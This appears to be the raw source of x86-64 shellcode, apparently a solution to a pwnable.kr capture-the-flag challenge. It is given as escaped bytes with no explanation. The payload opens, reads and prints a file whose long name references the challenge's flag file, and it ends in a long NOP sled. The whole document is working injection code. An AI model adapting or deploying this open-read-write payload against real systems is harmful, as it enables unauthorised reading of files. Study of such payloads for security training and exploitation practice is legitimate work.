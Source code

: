 \\xeb\\x3a\\x5d\\x48\\xff\\xc0\\x48\\xff\\xc0\\x48\\x89\\xef\\x48\\x31\\xf6\\x48\\x31\\xd2\\x0f\\x05\\x48\\x89\\xc7\\x48\\x31\\xc0\\x48\\x89\\xee\\x48\\x31\\xc9\\xb1\\xe9\\x48\\xff\\xc5\\xe2\\xfb\\xb2\\xff\\x0f\\x05\\x48\\x31\\xff\\x48\\xff\\xc7\\x48\\x89\\xc2\\x48\\x31\\xc0\\x48\\xff\\xc0\\x0f\\x05\\xe8\\xc1\\xff\\xff\\xff\\x2e\\x2f\\x74\\x68\\x69\\x73\\x5f\\x69\\x73\\x5f\\x70\\x77\\x6e\\x61\\x62\\x6c\\x65\\x2e\\x6b\\x72\\x5f\\x66\\x6c\\x61\\x67\\x5f\\x66\\x69\\x6c\\x65\\x5f\\x70\\x6c\\x65\\x61\\x73\\x65\\x5f\\x72\\x65\\x61\\x64\\x5f\\x74\\x68\\x69\\x73\\x5f\\x66\\x69\\x6c\\x65\\x2e\\x73\\x6f\\x72\\x72\\x79\\x5f\\x74\\x68\\x65\\x5f\\x66\\x69\\x6c\\x65\\x5f\\x6e\\x61\\x6d\\x65\\x5f\\x69\\x73\\x5f\\x76\\x65\\x72\\x79\\x5f\\x6c\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x6f\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x30\\x6f\\x30\\x6f\\x30\\x6f\\x30\\x6f\\x30\\x6f\\x30\\x6f\\x30\\x6f\\x6e\\x67\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90\\x90
